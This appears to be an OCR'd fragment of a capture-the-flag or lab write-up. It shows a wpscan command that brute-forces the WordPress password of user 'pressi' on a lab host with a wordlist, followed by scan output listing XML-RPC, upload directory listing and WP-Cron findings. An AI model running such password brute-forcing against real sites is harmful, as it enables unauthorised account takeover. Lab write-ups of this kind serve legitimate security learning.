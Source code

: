 ```shell
wpscan --url http://pressenter.hl/ --usernames pressi --passwords <WORDLIST>
```

Info:

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://pressenter.hl/ [172.18.0.2]
[+] Started: Thu Aug 22 10:14:17 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.58 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://pressenter.hl/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://pressenter.hl/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://pressenter.hl/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://pressenter.hl/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

Fingerprinting the version - Time: 00:00:03 <=======================================================================================================> (702 / 702) 100.00% Time: 00:00:03
[i] The WordPress version could not be detected.

[+] WordPress theme in use: twentytwentyfour
 | Location: http://pressenter.hl/wp-content/themes/twentytwentyfour/
 | Latest Version: 1.2 (up to date)
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://pressenter.hl/wp-content/themes/twentytwentyfour/readme.txt
```